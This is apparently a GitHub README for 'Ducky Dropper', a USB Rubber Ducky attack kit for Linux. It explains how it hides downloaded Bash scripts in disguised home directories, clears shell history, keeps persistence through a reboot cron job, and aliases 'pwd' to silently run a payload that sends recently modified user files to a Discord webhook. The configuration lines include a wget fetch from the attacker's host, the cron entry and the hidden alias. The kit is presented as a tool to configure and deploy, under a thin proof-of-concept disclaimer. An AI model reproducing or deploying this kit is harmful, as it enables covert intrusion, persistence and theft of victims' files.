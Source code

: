 <div align="center">
  
# Ducky Dropper


</div>

REM TITLE: Ducky_Dropper

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux release 2025.2)


## What is Ducky Dropper?
Ducky Dropper is a three part payload:
1. The DuckyScript Payload - [DS_payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/DS_payload.txt)
2. The Bash script dropper - [cron_dropper.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/cron_dropper.sh)
3. The Bash script payload - [payload.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/payload.sh)

Ducky Dropper is **proof of concept** payload that uses the DS_payload.txt loaded onto the Hak5 USB Rubber Ducky to grab two Bash scripts (`cron_dropper.sh` and `payload.sh`) hosted on an attackers' Github. This uses Github (or could be configured with other hosting platforms) as a way to host payloads to be persistently dropped onto the target system. Once the payloads are downloaded to the target machine, the DuckyScript payload creates two hidden directories to store the respective scripts. It gives the scripts execution permissions, sets the dropper script (`cron_dropper.sh`) as a cronjob to be ran 60 seconds after machine boot, and then creates an alias for the `pwd` command to act as a trigger for payload script (`payload.sh`) execution. The terminal history is unset immediately after the terminal is popped to obfuscate the fact that code was injected, and then closes when done. Total injection time is ~4.5 seconds.

Ducky Dropper is deisgned so that once injected on the victim machine via the DuckyScript payload, when the target user enters the trigger command (in this case `pwd`, but can be changed, spoken about later), it will execute the `payload.sh` stored in `~/.confg`.

60 seconds after the machine is booted, the dropper becomes active. The dropper will first check to see if the machine is internet connected by sending a `ping` to hak5.org. If internet connectivity is *not* present, the dropper will exit and lay dormant until next boot. If internet connectivity *is* present, the dropper will grab a payload from the configured host site (Github) path. It will then calculate and compare an sha256sum checksum of the newly downloaded payload against the current payload present in `~/.confg` (the payload that is currently executed via the trigger command). If the checksums *match*, the newly downloaded payload is discarded (because it's the same as what is already present). If the checksums *do not* match the payload in `~/.confg` the current payload is replaced by the newly downloaded payload and given execution permissions. This allows for updated payloads to be grabbed via the dropper and executed by the trigger command. The attacker is able to maintain persistence on the target system and send it payloads of the attackers' choice to be grabbed on machine boot and executed by the trigger command.

**Configurations for all scripts/payloads can be changed, such as changing the trigger command, payload path for the dropper, etc, and is discussed below.**

---

**Testing Environment**

For this PoC I have set the DuckyScript payload to grab two Bash sripts (`cron_dropper.sh` and `payload.sh`) from Github. These are for demonstration purposes only to show how the payload works. The `payload.sh` is a Bash payload that when executed, checks for internet connectivity, looks for files inside of the users home folder that have been modified in the last 24 hours, if found tarballs them and exfiltrates them to a Discord webhook. If you would like to test this payload, you will need to manually add your Discord webhook to line 37 of the `payload.sh` after the DuckyScript payload has finished its injection. This would normally be pre-configuerd in the payload being hosted and grabbed so that when the payload is dropped it is fully configured, but it's not cause PoC.

After the Discord webhook has been configured, running the `pwd` command will silently exfiltrate modified files:
<img width="760" height="151" alt="t2" src="https://github.com/user-attachments/assets/2968a7b0-e95b-46a8-ba61-dc52b4296017" />

Again, please remember that these provided payloads are PoC only, and to not use them in their "demo" configuration to attack or persist on target machines.

---

### DuckyScript Payload (DS_payload.txt)

1. The Ducky will pop a terminal, unset the history file, and then download the two aforementioned Bash scripts (`cron_dropper.sh` and `payload.sh`).
2. Creates two hidden directories inside of the users home folder (`.cronfg` and `.confg`) that place and host the aforementioned Bash scripts.
	- `.cronfg` is the directory responsible for hosting the `cron_dropper.sh` script.
	- `.confg` is the directory responsible for hosting the `payload.sh` script.
   
3. Grants execution permissions to both scripts.
4. Sets up `cron_dropper.sh` as a cronjob to be ran 60 seconds after the target machine is booted.
5. Creates an alias for `pwd` that will execute `pwd` with the expected out *and* executes the `payload.sh` script.
6. Closes terminal to obfuscate activity.

**Configuration:**
- The attackers' Github path to where the dropper is hosted must be defiend in line 8.
	- e.g., `DEFINE #CRON_DROPPER https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/cron_dropper.sh`
	
- The attackers' Github path to where the payload is hosted must be defiend in line 9.
	- e.g., `DEFINE #PAYLOAD https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh`

- The trigger command by default is `pwd`, this can be altered by changing the command in line 30.
	- e.g., `STRINGLN alias pwd='pwd; (/home/$USER/.confg/*.sh > /dev/null 2>&1 & )'` (commands are changed here --> `pwd='pwd`)

---

### The Dropper (cron_dropper.sh)

1. The dropper allows attacker persistence to the target machine.
2. Grabs new payloads hosted via Github (or your hosting platform choice) to be passed to and executed by the trigger command.
3. Performs internet connectivity checks before executing the entirety of the payload.
4. Performs a checksum function to identify a change in payload.
5. Places new payload into the `~/.confg` directory to be executed by the trigger command.

**Configuration**
- The frequency of the dropper "phoning home" for payloads can be altered in the DS_payload.txt. By default, it is sent to grab payloads 60 seconds after machine boot. If you would like to change this, it will need to be configured prior to initial DuckyScript payload injection. This can be altered on line 26 of the `DS_payload.txt` file.
	- e.g., `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` - change the `@reboot sleep 60` to the desired configuration.
	
- The source of where the dropper grabs payloads from cannot be changed post DuckyScript injection.
	- e.g., `wget -q -P /home/$user/.confg_tmp https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh` - The dropper will always look to this URL path for new payloads. To create updated payloads, you would simply edit the code of `/payload.sh` on the hosting platform. It is important to note, do not change the URL path/file name after initial DuckyScript injection, this will break the hash function and cause issues.
	
---

### The Payload (payload.sh)
(demo payload)

 When the `pwd` command is entered, the following happens:
1. Checks for internet connectivity, if not present, exits, else:
2. Search for files in the target users home directory that have been modified in the last 24 hours.
3. If files, tarballs them, and then exfiltrates them to a Discord webhook.
As this is a demo payload, you will need to manually configure the Discord webhook (explained above in the testing environment section).

---

**A note on configuration of payload.sh and cron_dropper.sh**
It is important to note that whatever choice of naming convention used to name the payloads and dropper, they should be used consistently (so pick something you like). This will prevent errors with the checksum process. As an example, if the intiially downloaded payload is `payload123.sh`, then all subsequent payloads grabbed by the dropper should also be named `payload123.sh`.

Also, if you would like to change the name of the dropper, the change must also be done in the DS_payload.txt `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` (line 26) to ensure the cronjob calls to the correct dropper.

All naming conventions of files should be use consistently accross all three payloads to ensure the prevention of errors.
